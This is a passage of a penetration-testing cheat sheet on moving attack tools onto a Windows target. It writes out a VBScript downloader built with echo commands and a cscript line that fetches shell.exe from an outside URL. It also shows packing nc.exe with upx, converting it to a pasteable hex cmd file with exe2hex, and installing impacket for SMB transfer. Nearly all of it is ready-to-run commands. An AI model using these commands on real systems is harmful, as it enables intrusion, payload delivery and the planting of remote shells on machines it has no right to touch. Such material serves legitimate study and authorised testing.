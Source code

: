 	Paste and execute `wget.vbs` script to the Windows machine.

	``` bash
	cscript wget.vbs http://<url>/shell.exe shell.exe
	```

=== "wget.vbs.txt"

	``` bash
	echo strUrl = WScript.Arguments.Item(0) > wget.vbs
	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
	echo Err.Clear >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
	echo http.Open "GET", strURL, False >> wget.vbs
	echo http.Send >> wget.vbs
	echo varByteArray = http.ResponseBody >> wget.vbs
	echo Set http = Nothing >> wget.vbs
	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
	echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
	echo strData = "" >> wget.vbs
	echo strBuffer = "" >> wget.vbs
	echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
	echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
	echo Next >> wget.vbs
	echo ts.Close >> wget.vbs
	```

### Hex String

Smaller file

``` bash
upx -9 nc.exe
```

``` bash
exe2hex -x nc.exe -p nc.cmd
```

### SMB Protocol

Install

``` bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo pip install -r requirements.txt
sudo python3 setup.py install
```
